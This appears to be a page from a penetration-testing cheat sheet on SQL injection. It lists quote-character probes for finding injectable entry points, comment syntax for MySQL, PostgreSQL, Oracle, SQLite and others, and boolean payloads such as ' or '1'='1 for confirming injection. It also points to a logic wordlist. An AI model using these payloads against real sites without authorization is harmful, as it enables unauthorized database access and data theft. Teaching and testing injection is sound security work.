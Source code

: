 # Entry point detection
```
'
"
`
')
")
`)
'))
"))
`))
```
Then, you need to know how to fix the query so there isn't errors. In order to fix the query you can input data so the previous query accept the new data, or you can just input your data and add a comment symbol add the end
# Comments
```
MySQL
#comment
-- comment     [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */

PostgreSQL
--comment
/*comment*/

MSQL
--comment
/*comment*/

Oracle
--comment

SQLite
--comment
/*comment*/

HQL
HQL does not support comments
```
# Confirming with logical operations
One of the best ways to confirm a SQL injection is by making it operate a logical operation and having the expected results.

For example: if the GET parameter ?username=Peter returns the same content as ?username=Peter' or '1'='1 then, you found a SQL injection.

Also you can apply this concept to mathematical operations. Example: If ?id=1 returns the same as ?id=2-1, SQLinjection.
```
page.asp?id=1 or 1=1 -- true
page.asp?id=1' or 1=1 -- true
page.asp?id=1" or 1=1 -- true
page.asp?id=1 and 1=2 -- false
```
This word-list was created to try to confirm SQLinjections in the proposed way:
[sqli-logic.txt](sqli-logic.txt)
